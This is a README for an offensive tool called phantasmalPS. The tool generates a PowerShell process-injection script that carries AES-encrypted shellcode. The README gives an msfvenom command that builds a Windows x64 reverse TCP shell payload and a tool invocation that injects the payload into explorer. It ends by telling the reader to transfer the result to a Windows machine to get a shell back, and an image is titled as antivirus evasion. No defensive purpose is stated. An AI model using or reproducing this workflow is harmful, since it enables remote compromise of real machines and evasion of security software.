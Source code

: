 # phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

Install requirements:
```python
pip3 install -r requirements.txt
```

## Simple Usage:
```bash
python3 phantasmalPS.py -h
```
![Help](Images/phantasmalPS-help.png)

First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f ps1 -o shell
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell -p explorer
```
![Run](Images/run-phantasmalPS.png)

It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```
![Attack](Images/file-check.png)

Now, transfer the PowerShell script to a Windows machine and get a shell back:

![Reverse Shell](Images/AV-evasion.png)

Thank you
